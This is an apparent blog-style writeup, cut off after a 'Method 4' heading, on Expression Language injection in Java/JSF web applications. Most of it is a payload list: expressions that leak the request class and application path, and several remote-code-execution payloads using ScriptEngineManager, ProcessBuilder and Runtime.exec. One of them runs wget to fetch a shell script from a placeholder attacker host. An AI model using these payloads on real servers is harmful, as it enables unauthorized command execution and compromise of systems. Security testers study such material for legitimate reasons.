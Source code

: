 // Set a response Header with a value of &quot;output&quot; Request Parameter

${facesContext.getExternalContext().setResponseHeader(&quot;output &quot;,request.getParameter(&quot;output &quot;))}

  ![](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png )

The application is vulnerable because of the new added response header.

Now we can also try to get the class of request object

Payload: ${facesContext.getExternalContext().setResponseHeader(&quot;output&quot;,request)}

 
  ![](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png )

 

##
## Payloads

To get current directory path we can sent payload

request.getServletContext().getResource(&quot;/&quot;)

output: In response we will get full path of application

Here I will share some EL injection payloads to get remote code execution in java application.

**Method 1** using **ScriptEngineManager** class to execute external command.

${facesContext.getExternalContext().setResponseHeader(&quot;output&quot;, &quot;&quot;.getClass().forName(&quot;javax.script.ScriptEngineManager&quot;).newInstance().getEngineByName(&quot;JavaScript&quot;).eval(\&quot;var x=new java.lang.ProcessBuilder; x.command(\\\&quot;wget\\\&quot;,\\\&quot;http://x.x.x.x/1.sh\\\&quot;); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\&quot;))}

**Method 2** using **processbuilder** class to execute external command.

${request.setAttribute(&quot;c&quot;,&quot;&quot;.getClass().forName(&quot;java.util.ArrayList&quot;).newInstance())}

${request.getAttribute(&quot;c&quot;).add(&quot;cmd.exe&quot;)}

${request.getAttribute(&quot;c&quot;).add(&quot;/k&quot;)}

${request.getAttribute(&quot;c&quot;).add(&quot;ping x.x.x.x&quot;)}

${request.setAttribute(&quot;a&quot;,&quot;&quot;.getClass().forName(&quot;java.lang.ProcessBuilder&quot;).getDeclaredConstructors()[0].newInstance(request.getAttribute(&quot;c&quot;)).start())}

${request.getAttribute(&quot;a&quot;)}

**Method 3**. One liner using **scriptEngineManager** class

${request.getClass().forName(&quot;javax.script.ScriptEngineManager&quot;).newInstance().getEngineByName(&quot;js&quot;).eval(&quot;java.lang.Runtime.getRuntime().exec(\\\&quot;ping loveuj.offsec-x.x.x.x\\\&quot;)&quot;))}&#39;

**Method 4.** Using **Runtime** class to execute external command.
